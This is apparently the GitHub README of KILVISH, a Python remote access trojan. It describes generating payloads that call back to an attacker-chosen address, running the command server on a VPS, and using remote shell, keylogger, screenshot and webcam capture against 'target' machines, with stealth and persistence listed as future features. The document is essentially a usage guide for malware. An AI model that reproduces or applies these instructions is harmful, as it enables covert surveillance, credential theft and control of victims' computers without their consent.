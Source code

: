 <h1 align="center"> 
    <img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/kilvish.jpg?raw=true" alt="KILVISH" /> <br>    
    KILVISH
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/siddhant385/Kilvish/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v1.0" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/1.png?raw=true"></h6>

## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Webcam module. Captures Webcam of client screen.(Thanks to Bainky/RAT)</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding for connection. </li>
    <li>Encrypts the payload using AES Encryption (Thanks to pushpendraindia)</li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Persistence</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Windows 10** with **Python 3.9**. 
Follow the steps for installation:
```
$ git clone https://github.com/siddhant385/Kilvish.git
$ cd Kilvish/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/2.png?raw=true"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 kilvish.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/3.png?raw=true"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/4.png?raw=true"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support


### ORIGINAL CREATOR
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407
